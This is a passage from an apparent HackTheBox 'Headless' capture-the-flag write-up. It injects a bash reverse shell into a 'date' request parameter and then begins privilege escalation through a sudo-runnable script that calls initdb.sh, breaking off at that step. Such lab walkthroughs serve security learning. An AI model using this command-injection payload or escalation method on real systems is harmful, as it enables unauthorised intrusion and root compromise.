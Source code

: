 Inject a reverse shell in the `date` parameter:

```bash
date=2023-09-15; bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/bs_generate_report_edit_date.png)

As requests are URL encoded, we must encode the payload:

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/bs_generate_report_encode_date.png)

This time, the reverse shell connects:

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/user_flag.png)

✅ **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Checking Sudo Rights

List sudo privileges:

```bash
sudo -l
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/dvir_files_to_execute.png)

We can run `/usr/bin/syscheck` as root without a password.

### 4.2 Analyzing the Script

View its content:

```bash
cat /usr/bin/syscheck
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/file_to_execute.png)

Running as sudo:

```bash
sudo /usr/bin/syscheck
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/executing_file.png)

At the end, it executes `initdb.sh` if not already running.  

This is exploitable because we can create our own malicious initdb.sh

### 4.3 Exploit `initdb.sh`
